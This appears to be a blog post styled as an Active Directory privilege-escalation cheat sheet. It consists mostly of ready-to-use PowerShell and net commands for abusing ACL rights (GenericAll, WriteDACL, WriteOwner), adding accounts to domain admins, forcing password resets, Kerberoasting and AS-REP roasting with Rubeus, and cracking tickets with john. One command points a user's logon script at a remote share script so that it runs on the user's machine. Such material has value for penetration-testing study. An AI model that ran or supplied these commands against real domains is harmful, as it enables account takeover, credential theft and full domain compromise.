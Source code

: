 ```yaml
---
layout: post
date: 30/10/2022
author: Aswin Gopalakrishnan
title: Privilege Escalation Techniques
---
```


# ACL Abuse
Access Control Lists (ACLs) are an essential part of Windows Active Directory security. They are used to control access to resources such as files, folders, and network shares. However, ACLs can be abused by attackers to gain unauthorized access to sensitive data.

One common ACL abuse technique is known as "over-permissioning." This occurs when an administrator grants more permissions than necessary to a user or group. For example, granting "Full Control" to a user who only needs "Read" access. This can lead to unintended consequences, such as data leaks or unauthorized modifications.

### GenericAll / GenericWrite / WriteProperty

#### On a User
- **Change Password**
    ```bash
    net user <username> <password> /domain
    ```
- **Targeted Kerberoasting**
    - Set a fake Service Principal Name (SPN):
        ```powershell
        Set-DomainObject -Credential $creds -Identity <username> -Set @{serviceprincipalname="fake/NOTHING"}
        ```
    - Obtain the hash:
        ```powershell
        .\Rubeus.exe kerberoast /user:<username> /nowrap
        ```
    - Clear the SPN:
        ```powershell
        Set-DomainObject -Credential $creds -Identity <username> -Clear serviceprincipalname -Verbose
        ```
- **Disable Preauthentication**
    ```powershell
    Set-DomainObject -Identity <username> -XOR @{UserAccountControl=4194304}
    ```

#### On a Group
- **Add to Group**
    - Using `net`:
        ```bash
        net group "domain admins" spotless/add /domain
        ```
    - Using Active Directory module:
        ```powershell
        Add-ADGroupMember -Identity "domain admins" -Members spotless
        ```
    - Using PowerSploit:
        ```powershell
        Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
        ```
        
#### On a Computer
- **Resource-Based Constrained Delegation (RBCD)**

### GenericWrite
- **User**
    - Overwrite logon script path for the target user:
        ```powershell
        Set-ADObject -SamAccountName delegate -PropertyName scriptpath -PropertyValue "\\10.0.0.5\totallyLegitScript.ps1"
        ```

### AllExtendedRights
- **Password Reset**
- **Add to Group**

### Self-Membership
- **Add to Group**
    ```powershell
    Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
    ```

### ExtendedRight on
- **User-Force-Change-Password** (ObjectType)
    - **Password Reset**
        ```powershell
        Get-ObjectAcl -SamAccountName delegate -ResolveGUIDs | ? {$_.IdentityReference -eq "OFFENSE\spotless"}
        Set-DomainUserPassword -Identity delegate -Verbose
        ```

### WriteProperty
- **Add to Group**
    ```powershell
    Add-ADGroupMember -Identity MachineAdmins -Members $otherDomainUser
    ```

### WriteOwner
- **Change the object’s owner**
    ```powershell
    Set-DomainObjectOwner -Identity testuser -Domain techcorp.local -OwnerIdentity "us\studentuser19"
    ```
- **Check Owner**
    ```powershell
    Get-ADObject -Identity "CN=Users,DC=contoso,DC=com" -Properties Owner | Select-Object -ExpandProperty Owner
    ```

### WriteDACL
- **Grant Generic Permissions** (must be the owner)
    ```powershell
    $ADSI = [ADSI]"LDAP://CN=test,CN=Users,DC=offense,DC=local" 
    $IdentityReference = (New-Object System.Security.Principal.NTAccount("spotless")).Translate([System.Security.Principal.SecurityIdentifier])
    $ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $IdentityReference,"GenericAll","Allow"
    $ADSI.psbase.ObjectSecurity.SetAccessRule($ACE)
    $ADSI.psbase.commitchanges()
    ```


### DCSync Attack

## Kerberoasting
Kerberoasting targets accounts with Kerberos service tickets by exploiting service principal names (SPNs) and cracking the tickets offline.

### Find Service Accounts
- Using Active Directory:
    ```powershell
    Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
    ```
- Using PowerView:
    ```powershell
    Get-DomainUser –SPN
    ```

### Escalation
- Use `Rubeus` to Kerberoast service accounts supporting RC4 encryption.
    ```powershell
    Rubeus.exe kerberoast /user:serviceaccount /simple /rc4opsec
    ```

### Crack Tickets
- Use `john` to crack Kerberos tickets:
    ```bash
    john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\hashes.txt
    ```

### AS-REP Roasting
Find accounts without Kerberos preauthentication and request an AS-REP hash for offline cracking:
```powershell
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
Invoke-ASREPRoast -Verbose
